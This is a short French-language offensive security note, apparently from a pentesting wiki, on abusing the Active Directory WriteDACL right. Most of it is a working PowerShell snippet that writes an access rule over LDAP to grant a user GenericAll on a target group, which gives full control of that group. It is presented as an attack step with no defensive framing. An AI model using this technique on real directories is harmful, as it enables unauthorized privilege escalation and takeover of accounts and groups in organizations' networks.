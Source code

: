 Avec le droit `WriteDACL`, il est possible d'attribuer soi-même des permissions à l'objet cible. Le plus simple est donc de s'attribuer le droit `GenericAll` sur cet objet.

> [!Attention]
> Le faire avec PowerView / Le module powershell ActiveDirectory ne semble pas fonctionner correctement, il faut le faire en écrivant directement sur le LDAP.

Attribuer le droit `GenericAll` à l'utilisateur `user` sur le groupe `test`

```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"

$IdentityReference = (New-Object System.Security.Principal.NTAccount("user")).Translate([System.Security.Principal.SecurityIdentifier])

$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"

$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)

$ADSI.psbase.commitchanges()
```

Il est maintenant possible d'avoir un contrôle total du groupe cible.